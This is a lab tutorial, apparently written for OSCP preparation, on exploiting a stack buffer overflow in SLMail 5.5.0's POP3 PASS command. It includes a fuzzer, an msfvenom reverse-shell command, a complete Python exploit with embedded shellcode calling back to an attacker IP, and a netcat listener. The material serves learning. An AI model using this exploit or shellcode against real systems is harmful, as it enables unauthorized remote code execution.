




<p align="center">
  
</p>

***

# Topic
I took the OSCP exam in 2020.

I wrote this to document my progress and give back to the community.
It also might encourage you to take the exam yourself.

In this first installment I would like to talk about "Stack based Buffer-Overflows".
What are they? How do they work? How can you exploit them?

I am not a developer by any means. I have exactly 0% knowledge in C or any other compiled language.
I just know a bit of "Python3" and "PowerShell". But I managed to pull this of anyway and so can you.

If you are a more experienced wizard and you find some mistakes in my explanation, let me know so I can fix it here and learn faster!

Let's start!

# Setup
My setup for this task consisted of a "Windows 10 64Bit VM" and a "Kali Linux VM" in "VirtualBox".
This part should be straight forward for you. Just install both operating systems and make sure that the VMs can "ping" each other.
Take note about the "IP Addresses" of the systems. We need those shortly.

Next I installed "SLMail 5.5.0" on the "Windows 10 VM" as our target. If you want to follow this writeup you can get it
<a href="https://www.exploit-db.com/exploits/16399" target="_blank">here</a>. Also take note of the title of the exploit: "POP3 'PASS' Remote Buffer Overflow".

I also installed "OllyDbg" for my debugging needs. I suggest to give "Immunity-Debugger" or "x64dbg" a try too,
"OllyDbg" worked but doesn't seem to be the first choice of more advanced exploit-devs.

Open "services.mmc" as "administrator" on your "Windows VM" just to be prepared to restart the "SLMail" service.
It will crash a couple of times during this journey.

With this, we should have everything setup.

# Recon
I logged into my "Kali VM" and opened "nmap" and scanned the IP-Address of my "Windows VM".
Besides a couple of standard Windows ports I found "port 110" to be open as well.


This just means "SLMail" is running and is listening on "port 110" for incoming connections.
As the name and port suggest, "SLMail" is a small local "mailserver" providing the user access to their mailbox via the "POP3" protocol.

If you are not familiar with this protocol you should at least read the Wikipedia <a href="https://en.wikipedia.org/wiki/Post_Office_Protocol" target="_blank">entry for this</a>.
As the title of the exploit suggests the vulnerability resides in the `PASS` parameter. This parameter or command is part of the authentication phase like when
someone logs into their mailbox. It's used to tell the "POP3" server that you will send him your password now.

This is how the authentication looks like:

```
C:    USER x41
S:    +OK User accepted
C:    PASS SuperSecurePassword
S:    +OK Pass accepted
```

You can try this with "nc" too.



To recap this phase:


We identified that "POP3" is running correctly on the "Windows VM". We can send data to the service as well. You'll see why this is important shortly.
Because this is a demo we also know that the `PASS` command is vulnerable to a "BufferOverflow". If we wouldn't know that, we simply would do
the next step for other parts of the application where "user input" is possible.

# Fuzzing
At some point a developer wrote the "POP3" server in programming language like "C". In those languages the developer is responsible
to tell the computer how much data a variable is allowed to store. For example: The variable "UserPassword" is allowed to take "100 Bytes".
If someone would have a very long password of let's say "101 Bytes". The application would truncate that because the "buffer" is too small.


This is how it should be. If the developer forgets to be restrictive however, the application would happily accept the "101 Byte" long password.
Nothing prevents you to send even more data: "200 Bytes", "2000 Bytes" - the application will take it and puts all this data into it's memory.
At some point however, it will crash because you have overwritten vital parts of the application itself. We will see this in action shortly.
For now we just need to know how much data we need to send the "POP3" service until it crashes.

To accomplish that I wrote a small script that connects to the "POP3" service, sends the `USER` command with a username as shown in the last phase
and then the `PASS` command with junk data. For simplicity I choose the letter "A". Please check the comments in the code to get an overview of what it does:


#!/usr/bin/python3

# Import of the socket library to connect to the POP3 service
# Import time to sleep 2 seconds to avoid Denial of Service
import socket
import time

# Victim IP and Port
host = "192.168.1.14"
port = 110

# A counter variable to keep track of the amount of 'A's we will sent
counter = 1000

# Loop until we've reached 5000 Bytes (5000 is just a guess - could be more, could be less)
while (counter < 5000):

        # Build a TCP SOCKET (stream) and use it to connect to victim IP & Port  
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        data = s.recv(1024)
        print(data)

        # Send USER command with Username x41
        s.send(b'USER x41\r\n')
        data = s.recv(1024)
        print(data)

        # Send PASS command with 'A' times the value of the counter variable (starts at 1000)
        s.send(b'PASS ' + b'A' * counter + b'\r\n')
        data = s.recv(1024)
        print(data)

        # Close connection
        s.close()

        # Sleep 2 seconds and add 100 to the counter variable
        time.sleep(2)
        counter += 100

        # Print the buffersize we've sent - this is important because we want to know at how many bytes the application will crash
        print("[+] Buffersize {}".format(counter))  


Before we can start using our script, let's attach (File -> Attach) "OllyDbg" (run it as administrator) to the "SLMail" process and hit the "run" button.


While "OllyDbg" is now monitoring the process, we can start the "Fuzzer".


The screenshot shows the server banner, then the User welcome notification.
Followed by an error (which we can ignore) and then prints the sent buffersize of "4600 bytes".
This is repeated three times for this example and stops just before we get the output for "4800 bytes".

On our "Windows VM" we can also see in "OllyDbg" that something went wrong.


Let's zoom in a bit at take a look at the different windows and their content.
On the right hand-side you can the "registers" of the "CPU". "Registers" are small units of memory within the "CPU" itself.


The "CPU" loads data from "RAM" into those "registers" and then processes the data.
We are just interessted in two "registers" right now. "EIP" and "ESP" (the latter is highlighted).

"EIP" is the "Extented Instruction Pointer". It tells the "CPU" where it needs to go after it is
done with the current operation. Currently it is pointing to the memory-location of `41414141`.

"ESP" is the "Extented Stack Pointer". It always points to the top of the "stack".
In this example the top of the "stack" is located at `0193A101`.

Wtf is the "stack"?
We can see the "stack" in the bottom-right corner.


It is basicly just the "RAM" allocated for the "SLMail" process. The screenshot shows that the content of the "stack" at that location is also "41's". It also shows, what "41" means. It's our character "A" we have sent in "hex" notation.

Our "A's" have overwritten "EIP" and crashed to program.  


This is proof that we have a "BufferOverflow" here. But before we move on - I need to explain how we overwrote "EIP" and what happened in the background.

It's rather simple. We provided more input than the application was able to handle, filling the normal buffer, overflowing into unknown space until we have overwritten so much
that we destroyed the location where the application stored the "return" address. This address will be loaded into "EIP" after we provided our "password".

The "return" address is the location where the application under normal circumstances would continue it's operation. In this case probably doing a check
if the provided user and password is correct. But because we overwrote the "return address" with `41414141` (an invalid address) the program crashes.

This in turn means two things:

1. We control "EIP" and could also write valid addresses into it - allowing us to jump to a memory location of our choosing.  
2. We can put our own code on the stack, like a reverse shell, which we can run by jumping to it.

Some pictures would be nice now right? I didn't want to steal others work, so I just <a href="http://netsec.ws/?p=180" target="_blank">link some here</a>.
They used a different tool for their example on "BufferOverflows". You could use theirs to test what you've learned here. I did the same.
I only started with their binary first as a try run and then popped a shell on the "POP3" server on my own. Anyway....

Let's write a proof of concept "exploit" now.

# POC

We can copy our "Fuzzer" and remove everything but the connection code. We need to add now a couple of things.
First we need to find out how many bytes we need to send exactly to the application till we overwrite "EIP".
In our "fuzzing" phase we learned that it should be something between "4600" and "4800" bytes.

We can use the tool `pattern_create` to generate a "5000 byte" long string with a unique pattern. 5000 just to have some wiggle-room.



Then we copy this string over to our "exploit". Replace the "< PATTERN_HERE >" section.


#!/usr/bin/python3

# Import of the socket library to connect to the POP3 service
import socket

# Victim IP and Port
host = "192.168.1.14"
port = 110

# POC Buffer
buffer = b' <PATTERN_HERE> '

# Build a TCP SOCKET (stream) and use it to connect to victim IP & Port  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
data = s.recv(1024)
print(data)

# Send USER command with Username x41
s.send(b'USER x41\r\n')
data = s.recv(1024)
print(data)

# Send PASS command with our buffer
s.send(b'PASS ' + buffer + b'\r\n')
data = s.recv(1024)
print(data)

# Close connection
s.close()


The program crashes instantly. We can copy now the value of "EIP" from "OllyDbg" and give it a tool called `pattern_offset`.
This tool can now calculate at which position in the created pattern this value is found.


We can update our code again to test if the calculated value is correct. We just send a crafted "buffer" again.

```
# POC Buffer
buffer = b'A' * 4654
buffer += b'B' * 4
buffer += b'C' * 342
```

If this works, we would expect the following: The "stack" should hold a ton of "A's", "EIP" should hold 4 "B's" and those are followed by 342 "C's".
Let's try that. (Keep in mind - you might need to restart the "SLMail" service.)




And indeed it worked.
The next step in our process is to find so called "bad characters".

# BadChars
"BadChars" are bytes that the application can't handle and would break our exploit. A prime example are so called "null bytes" or `\x00`.
A "null byte" is most often used to terminate a string in programming languages. In other words: It will truncate everything after the "null byte".

Finding them is easy but repetitive task. We swap our "C's" with all possible bytes from `\x00` till `\xff` and see which break the program.
When we found one, we'll remove it from the list, and try again. And again. And again.


After the first run, we see nothing on the "stack". So we found our first "badchar" `\x00`.



So we remove it and try again.
This time we can find the sequence `01,02,03...` on the "stack". But it breaks again at `\x0a`, and a third time at `\x0d`.
After finding all the "BadChars" the "stack" should look like this:


With this knowledge we can move into the next phase. Creating our "shellcode".

# Shellcode
"Shellcode" is basicly a synonym for "payload". It can be anything you want.
For this we want to spawn a simple "reverse-shell". It forces the victim to call back to our attacker machine.

Our "Kali VM" has all the tools we need for that. I used "msfvenom" for this task.

`msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.1.18 LPORT=4444 -b '\x00\x0a\x0d' -f python`

I generated "shellcode" for "32Bit (x86)" architecture, platform "windows".
The payload is a "unstaged reverse_tcp shell". The attacker machines "IP" and "port" and last but not least I specified the "BadChars".
Those will be avoided by "msfvenom" when generating the "shellcode".  The output looks like this:


I copied that over into my exploit and added a bunch of `b'` because I am using python3.
I also renamed the "buffer" variable into "junk" for our "4654 byte" of data and "EIP" for our "EIP-Overwrite".

We are almost there. Just two more things are needed. It's the address of a `JMP ESP` or `CALL ESP` instruction and a `NOP-Sled`.
This sound worse than it is!

# JMP ESP
As I've explained earlier, we not only overwrote "EIP" but wrote "C's" past that point. We removed the "C's" now and will send our "shellcode" instead.
The questions is now: How can we access our "shellcode"? Well, we control "EIP" and could put the address in there where our "shellcode" starts. However in most cases you
can't put the address in there directly. The address might change. But we are lucky. Our "payload" resides by chance in the right spot.

The register "ESP" which I told you about at the beginning holds the address to our "shellcode".
To proof that I run the newest version of the "exploit" again.


#!/usr/bin/python3

# Import of the socket library to connect to the POP3 service
import socket

# Victim IP and Port
host = "192.168.1.14"
port = 110

# POC Buffer
junk = b'A' * 4654
eip = b'B' * 4

buf =  b""
buf += b"\xdb\xd9\xd9\x74\x24\xf4\x5f\x31\xc9\xb1\x52\xbd\xad"
buf += b"\x99\x49\x27\x31\x6f\x17\x83\xc7\x04\x03\xc2\x8a\xab"
buf += b"\xd2\xe0\x45\xa9\x1d\x18\x96\xce\x94\xfd\xa7\xce\xc3"
buf += b"\x76\x97\xfe\x80\xda\x14\x74\xc4\xce\xaf\xf8\xc1\xe1"
buf += b"\x18\xb6\x37\xcc\x99\xeb\x04\x4f\x1a\xf6\x58\xaf\x23"
buf += b"\x39\xad\xae\x64\x24\x5c\xe2\x3d\x22\xf3\x12\x49\x7e"
buf += b"\xc8\x99\x01\x6e\x48\x7e\xd1\x91\x79\xd1\x69\xc8\x59"
buf += b"\xd0\xbe\x60\xd0\xca\xa3\x4d\xaa\x61\x17\x39\x2d\xa3"
buf += b"\x69\xc2\x82\x8a\x45\x31\xda\xcb\x62\xaa\xa9\x25\x91"
buf += b"\x57\xaa\xf2\xeb\x83\x3f\xe0\x4c\x47\xe7\xcc\x6d\x84"
buf += b"\x7e\x87\x62\x61\xf4\xcf\x66\x74\xd9\x64\x92\xfd\xdc"
buf += b"\xaa\x12\x45\xfb\x6e\x7e\x1d\x62\x37\xda\xf0\x9b\x27"
buf += b"\x85\xad\x39\x2c\x28\xb9\x33\x6f\x25\x0e\x7e\x8f\xb5"
buf += b"\x18\x09\xfc\x87\x87\xa1\x6a\xa4\x40\x6c\x6d\xcb\x7a"
buf += b"\xc8\xe1\x32\x85\x29\x28\xf1\xd1\x79\x42\xd0\x59\x12"
buf += b"\x92\xdd\x8f\xb5\xc2\x71\x60\x76\xb2\x31\xd0\x1e\xd8"
buf += b"\xbd\x0f\x3e\xe3\x17\x38\xd5\x1e\xf0\x87\x82\x21\x12"
buf += b"\x60\xd1\x21\x03\x2c\x5c\xc7\x49\xdc\x08\x50\xe6\x45"
buf += b"\x11\x2a\x97\x8a\x8f\x57\x97\x01\x3c\xa8\x56\xe2\x49"
buf += b"\xba\x0f\x02\x04\xe0\x86\x1d\xb2\x8c\x45\x8f\x59\x4c"
buf += b"\x03\xac\xf5\x1b\x44\x02\x0c\xc9\x78\x3d\xa6\xef\x80"
buf += b"\xdb\x81\xab\x5e\x18\x0f\x32\x12\x24\x2b\x24\xea\xa5"
buf += b"\x77\x10\xa2\xf3\x21\xce\x04\xaa\x83\xb8\xde\x01\x4a"
buf += b"\x2c\xa6\x69\x4d\x2a\xa7\xa7\x3b\xd2\x16\x1e\x7a\xed"
buf += b"\x97\xf6\x8a\x96\xc5\x66\x74\x4d\x4e\x96\x3f\xcf\xe7"
buf += b"\x3f\xe6\x9a\xb5\x5d\x19\x71\xf9\x5b\x9a\x73\x82\x9f"
buf += b"\x82\xf6\x87\xe4\x04\xeb\xf5\x75\xe1\x0b\xa9\x76\x20"

# Build exploit buffer out of the junk data ('A's), eip address ('B's), shellcode
buffer = junk + eip + buf

# Build a TCP SOCKET (stream) and use it to connect to victim IP & Port
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
data = s.recv(1024)
print(data)

# Send USER command with Username x41
s.send(b'USER x41\r\n')
data = s.recv(1024)
print(data)

# Send PASS command with our buffer
s.send(b'PASS ' + buffer + b'\r\n')
data = s.recv(1024)
print(data)

# Close connection
s.close()



We could write an address into "EIP" that leads to a `JMP ESP` or `CALL ESP` instruction. This indirect method avoids hard-coding a "stack" address that's constantly changing.
These instructions can be found in "DLL's" that the program or operating system ships.
Using the "Windows DLL's" is not always a good idea. The reason why you want to avoid "Windows DLL's" is because they have "ASLR" (Address-Space-Layout-Randomization) enabled.
This will prevent simple exploits like this because the `JMP ESP` instruction won't be at the same location every time. Try it with this "exploit" later on a "Windows 10" machine. It will work just fine until you reboot.

You can read a good explaination <a href="https://security.stackexchange.com/questions/157478/why-jmp-esp-instead-of-directly-jumping-into-the-stack" target="_blank">here</a>.

I wasn't able to find a way to avoid using a "Windows DLL" so far. For simplicity I just picked `SHELL32.dll`.
You click the "E" button in "OllyDbg's" toolbar and get a list of "DLL's". Locate `SHELL32.dll` and double-click it.

Now right-click in the top-left pane and "search for ... Command". In that box you type `JMP ESP`.


Once found, we put that address into our "exploit" instead of the "B's".

```
eip = b'\x5C\xCB\xCE\x75'
```

I formatted the address in the same "hex-notation" as the "shellcode" and also wrote the values backwards.
This is because INTEL CPU's are working in "little endian" format. Please check wikipedia for that. It's just which byte is the least significant one.

# NOP
Adding `NOP`s is probably the easiest part.

```
nop = b'\x90' * 20
```

`NOP` stands for "no operation". The "CPU" just skips those and moves on. Using those makes the "exploit" a bit more reliable, because
after we `JMP ESP` we try to land into our `NOP`s and slide down into our "shellcode". Just in case something moved on the "stack".

# Exploit
That's about it. Now comes the moment of truth. Did everything work out?
Let me show you the finished "exploit" and then if we can pop a shell.


#!/usr/bin/python3

# Import of the socket library to connect to the POP3 service
import socket

# Victim IP and Port
host = "192.168.1.14"
port = 110

# POC Buffer
junk = b'A' * 4654
eip = b'\x5C\xCB\xCE\x75'
nop = b'\x90' * 20

buf =  b""
buf += b"\xdb\xd9\xd9\x74\x24\xf4\x5f\x31\xc9\xb1\x52\xbd\xad"
buf += b"\x99\x49\x27\x31\x6f\x17\x83\xc7\x04\x03\xc2\x8a\xab"
buf += b"\xd2\xe0\x45\xa9\x1d\x18\x96\xce\x94\xfd\xa7\xce\xc3"
buf += b"\x76\x97\xfe\x80\xda\x14\x74\xc4\xce\xaf\xf8\xc1\xe1"
buf += b"\x18\xb6\x37\xcc\x99\xeb\x04\x4f\x1a\xf6\x58\xaf\x23"
buf += b"\x39\xad\xae\x64\x24\x5c\xe2\x3d\x22\xf3\x12\x49\x7e"
buf += b"\xc8\x99\x01\x6e\x48\x7e\xd1\x91\x79\xd1\x69\xc8\x59"
buf += b"\xd0\xbe\x60\xd0\xca\xa3\x4d\xaa\x61\x17\x39\x2d\xa3"
buf += b"\x69\xc2\x82\x8a\x45\x31\xda\xcb\x62\xaa\xa9\x25\x91"
buf += b"\x57\xaa\xf2\xeb\x83\x3f\xe0\x4c\x47\xe7\xcc\x6d\x84"
buf += b"\x7e\x87\x62\x61\xf4\xcf\x66\x74\xd9\x64\x92\xfd\xdc"
buf += b"\xaa\x12\x45\xfb\x6e\x7e\x1d\x62\x37\xda\xf0\x9b\x27"
buf += b"\x85\xad\x39\x2c\x28\xb9\x33\x6f\x25\x0e\x7e\x8f\xb5"
buf += b"\x18\x09\xfc\x87\x87\xa1\x6a\xa4\x40\x6c\x6d\xcb\x7a"
buf += b"\xc8\xe1\x32\x85\x29\x28\xf1\xd1\x79\x42\xd0\x59\x12"
buf += b"\x92\xdd\x8f\xb5\xc2\x71\x60\x76\xb2\x31\xd0\x1e\xd8"
buf += b"\xbd\x0f\x3e\xe3\x17\x38\xd5\x1e\xf0\x87\x82\x21\x12"
buf += b"\x60\xd1\x21\x03\x2c\x5c\xc7\x49\xdc\x08\x50\xe6\x45"
buf += b"\x11\x2a\x97\x8a\x8f\x57\x97\x01\x3c\xa8\x56\xe2\x49"
buf += b"\xba\x0f\x02\x04\xe0\x86\x1d\xb2\x8c\x45\x8f\x59\x4c"
buf += b"\x03\xac\xf5\x1b\x44\x02\x0c\xc9\x78\x3d\xa6\xef\x80"
buf += b"\xdb\x81\xab\x5e\x18\x0f\x32\x12\x24\x2b\x24\xea\xa5"
buf += b"\x77\x10\xa2\xf3\x21\xce\x04\xaa\x83\xb8\xde\x01\x4a"
buf += b"\x2c\xa6\x69\x4d\x2a\xa7\xa7\x3b\xd2\x16\x1e\x7a\xed"
buf += b"\x97\xf6\x8a\x96\xc5\x66\x74\x4d\x4e\x96\x3f\xcf\xe7"
buf += b"\x3f\xe6\x9a\xb5\x5d\x19\x71\xf9\x5b\x9a\x73\x82\x9f"
buf += b"\x82\xf6\x87\xe4\x04\xeb\xf5\x75\xe1\x0b\xa9\x76\x20"

# Build exploit buffer out of the junk data ('A's), eip containing 'JMP ESP', NOPs and shellcode
buffer = junk + eip + nop + buf

# Build a TCP SOCKET (stream) and use it to connect to victim IP & Port
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
data = s.recv(1024)
print(data)

# Send USER command with Username x41
s.send(b'USER x41\r\n')
data = s.recv(1024)
print(data)

# Send PASS command with our buffer
s.send(b'PASS ' + buffer + b'\r\n')
data = s.recv(1024)
print(data)

# Close connection
s.close()


Before we run the "exploit" we start a "nc listener" to receive the "reverse-shell".

`nc -lnvp 4444`

Now we run the "exploit":


And it worked! :)

In the next screenshot you can see how the "stack" and "registers" look like just one step before we jump into our `NOP`s.


Can you spot the important sections? The `NOPs`? What address `ESP` and `EIP` hold? I leave that to you now.

I will try to make this exploit better over time (if possible) to challenge myself. I tried already with not using the `shell32.dll` but the "DLL's" I tried
didn't even had a `JMP ESP` or `CALL ESP` instruction in it. Don't know why. But that's why I learn, right?! ;)

# Update 1.1

After uploading this entry I fixed a couple of typos and other errors.
But I also learned a couple of new tricks.

### No crashes anymore!

When you create your shellcode and specify `EXITFUNC=thread` the threaded "SLMail" process won't crash completely when exiting the "reverse-shell".

`msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.1.18 LPORT=4444 -b '\x00\x0a\x0d' EXITFUNC=thread -f python`

### JMP ESP!

I played a bit with "Immunity Debugger" in combination with the extention "mona.py" instead of "OllyDbg".
With "mona.py" I was able to find a `JMP ESP` in `SLMFC.dll` with this command:

`!mona find -type instr -s "jmp esp" -m slmfc.dll`

I was curious why "mona" was able to find 19! of those while the search I used, didn't. So I poked around and noticed that my old search
was done in an address space that differed from the ones where "mona" found the `JMP ESP` instructions.

So I think "mona" searches all sections, while the search command does not.

I was able to find the instruction manually in the `.rdata` section of the `.dll`.


After updating and testing my exploit, I can say: It's working like a charm!
No crashing service anymore and it survives reboots now too.

Till next time.

x41

[[Top]](#top)
